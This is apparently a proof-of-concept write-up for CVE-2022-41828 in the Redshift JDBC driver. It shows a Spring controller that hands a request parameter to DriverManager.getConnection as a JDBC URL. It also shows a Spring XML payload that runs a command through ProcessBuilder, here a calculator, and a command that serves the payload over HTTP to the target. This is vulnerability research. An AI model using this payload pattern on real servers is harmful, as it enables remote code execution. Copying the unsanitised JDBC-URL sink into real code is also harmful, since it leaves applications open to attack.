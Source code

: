![pom xml](https://user-images.githubusercontent.com/16391655/206461393-85dd9bd0-4175-4d8a-9af6-9e73e4752471.png)

The following code snippets represent the content of the `src/main/java/com/example/redshiftjdbcrce/controller/RedshiftJdbcRCE.java` controller class.
```java
package com.example.redshiftjdbcrce.controller;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.sql.DriverManager;
import java.sql.SQLException;

@RestController
public class RedshiftJdbcRCE {
    @RequestMapping("/jdbcset")
    public void jdbcSet(HttpServletRequest request, HttpServletResponse response) throws SQLException {
        String jdbcurl = request.getParameter("jdbc");
        DriverManager.getConnection(jdbcurl);
    }

    public static void main(String[] args) throws SQLException {
    }
}
```
![RedshiftJdbcRCE java](https://user-images.githubusercontent.com/16391655/206466305-338a5131-91d1-4710-94ee-996d13c2cac6.png)

The following file represent the content of the constructor of XML document structure `cmd.xml` which used during exploitation.

```xml
<beans
    xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <!--<value>touch</value>-->
                <!--<value>/tmp/CVE-2022-41828</value>-->
                <value>gnome-calculator</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

Before trigging the vulnerability, the relevant `cmd.xml` file is served over HTTP so that it can be accessed by the target server.
```console
root@kali:~$ python3 -m http.server 2121
```
